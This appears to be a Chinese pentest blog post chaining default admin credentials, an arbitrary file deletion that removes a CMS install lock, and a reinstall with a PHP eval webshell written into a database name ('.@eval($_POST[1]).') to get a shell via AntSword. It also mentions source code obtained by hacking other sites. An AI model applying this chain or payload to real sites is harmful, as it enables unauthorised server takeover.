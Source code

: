 ```yaml
---
title: "任意文件删除+重装漏洞导致getshell"
date: 2020-03-22T04:27:29+08:00
draft: false
tags: ['渗透实战']
categories: ['渗透测试']
---
```


任意文件删除+重装漏洞导致getshell
<!--more-->


## 踩点
网站长这样
![avatar](https://sqlmap.wiki/images/325-1.png)
这种网站一般都是生成的模板，生成一个单页。所以我们得找到后台来getshell。通过js文件得知这个网站用的是WFPHP，百度这个cms得知后台是/wforder/wfadmin/，并得到默认账号密码 admin 123456
![avatar](https://sqlmap.wiki/images/325-2.png)
![avatar](https://sqlmap.wiki/images/325-3.png)
![avatar](https://sqlmap.wiki/images/325-10.png)

## 开始渗透
进入后台之后，测了一些东西，没发现啥漏洞。同事通过日别的站把这套源码脱下来了，但是核心代码都被加密了。
![avatar](https://sqlmap.wiki/images/325-8.png)
浏览了一些结构，/wfinstall/是系统安装文件夹，不过因为有lock锁，具体位置在 /wfdata/wfinstall.lock，所以我们得找到一个任意文件删除漏洞，才能尝试getshell

在后台修改产品这里，找到个任意文件删除漏洞
![avatar](https://sqlmap.wiki/images/325-4.png)
![avatar](https://sqlmap.wiki/images/325-5.png)
可以看到，这里的路径是可控的，把路径改为lock文件地址进行删除
![avatar](https://sqlmap.wiki/images/325-6.png)
之后访问wfinstall进行重装。首先问好兄弟借了台支持外连的mysql服务器，创建了个数据库为
```
'.@eval($_POST[1]).'
```
之后填入我们外链muysql的信息
![avatar](https://sqlmap.wiki/images/325-9.png)
重装成功之后，蚁剑连接 http://test.com/wfinstall/index.php  getshell
![avatar]（https://sqlmap.wiki/images/325-11.png）